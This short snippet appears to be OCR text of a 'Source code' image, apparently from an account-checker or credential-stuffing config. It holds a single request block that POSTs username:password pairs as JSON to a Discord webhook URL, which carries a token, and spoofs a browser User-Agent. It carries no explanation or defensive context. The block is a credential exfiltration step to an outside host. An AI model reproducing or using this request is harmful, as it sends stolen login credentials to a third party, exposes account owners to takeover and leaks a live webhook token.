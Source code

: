 REQUEST POST "https://discordapp.com/api/webhooks/679802785335607490/Vc1rtKOPjzb3iROIvYVXdhO6HfCuAwvOAPgZxXxBTxQGkiULSZYqClJuViOMAN6MvjUG/github" 
  CONTENT "{"content" : "<USER>:<PASS>"}"
  CONTENTTYPE "application/json" 
  HEADER "User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko" 
  HEADER "Pragma: no-cache" 
  HEADER "Accept: /"
